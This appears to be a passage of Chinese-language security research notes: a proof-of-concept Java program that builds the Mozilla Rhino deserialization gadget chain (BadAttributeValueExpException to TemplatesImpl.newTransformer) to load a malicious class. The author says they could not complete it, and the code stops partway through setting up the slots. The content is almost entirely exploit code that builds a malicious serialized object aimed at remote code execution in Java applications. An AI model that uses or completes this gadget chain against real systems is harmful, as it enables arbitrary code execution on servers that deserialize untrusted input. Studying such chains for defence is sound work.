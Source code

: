 ## Poc

写不来,感觉有很多细节还是没理明白

```java
package MozillaRhino;

import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.*;
import org.mozilla.javascript.*;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
/*BadAttributeValueExpException.readObject()
    NativeError.toString()
        ScriptableObject.getProperty()
            ScriptableObject.getImpl()
                NativeJavaMethod.call()
                    NativeJavaObject.unwrap()
                        MemberBox.invoke()
                            TemplatesImpl.newTransformer()
*/
public class MozillaRhino1 {

    public static String fileName = "MozillaRhino1.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();

        // 实例化 NativeError 类
        Class<?>       nativeErrorClass       = Class.forName("org.mozilla.javascript.NativeError");
        Constructor<?> nativeErrorConstructor = nativeErrorClass.getDeclaredConstructor();
        nativeErrorConstructor.setAccessible(true);
        Scriptable nativeError = (Scriptable) nativeErrorConstructor.newInstance();

        // 使用恶意类 TemplatesImpl 初始化 NativeJavaObject
        // 这样 unwrap 时会返回 tmpl 实例
        // 由于 NativeJavaObject 序列化时会调用 initMembers() 方法
        // 所以需要在实例化 NativeJavaObject 时也进行相关初始化
        Context context = Context.enter();
        NativeObject scriptableObject = (NativeObject) context.initStandardObjects();
        NativeJavaObject nativeJavaObject = new NativeJavaObject(scriptableObject, tmpl, TemplatesImpl.class);

        // 使用 newTransformer 的 Method 对象实例化 NativeJavaMethod 类
        Method newTransformer   = TemplatesImpl.class.getDeclaredMethod("newTransformer");
        NativeJavaMethod nativeJavaMethod = new NativeJavaMethod(newTransformer, "name");

        // 使用反射将 nativeJavaObject 写入到 NativeJavaMethod 实例的 prototypeObject 中
        Field prototypeField = ScriptableObject.class.getDeclaredField("prototypeObject");
        prototypeField.setAccessible(true);
        prototypeField.set(nativeError, nativeJavaObject);

        // 将 GetterSlot 放入到 NativeError 的 slots 中
        Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
        getSlot.setAccessible(true);
        Object slotObject = getSlot.invoke(nativeError, "name", 0, 4);

```